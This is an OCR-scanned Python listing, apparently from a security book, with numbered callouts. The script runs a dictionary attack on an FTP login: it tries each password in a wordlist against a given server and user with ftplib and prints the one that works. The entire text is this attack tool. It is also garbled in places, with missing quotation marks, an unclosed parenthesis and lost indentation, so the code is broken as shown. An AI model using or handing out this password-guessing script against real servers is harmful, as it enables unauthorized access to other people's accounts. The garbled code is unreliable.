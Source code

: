 #! /usr/bin/python3
import ftplib
➊ server = input(FTP Server: ")
➋ user = input("username: ")
➌ Passwordlist = input ("Path to Password List > ")
➍ try:
with open(Passwordlist, 'r') as pw:
for word in pw:
➎ word = word.strip ('\r').strip('\n')
➏ try:
ftp = ftplib.FTP(server)
ftp.login(user, word)
➐ print (Success! The password is ' + word)
➑ except:
print('still trying...')
except:
print ('Wordlist error'











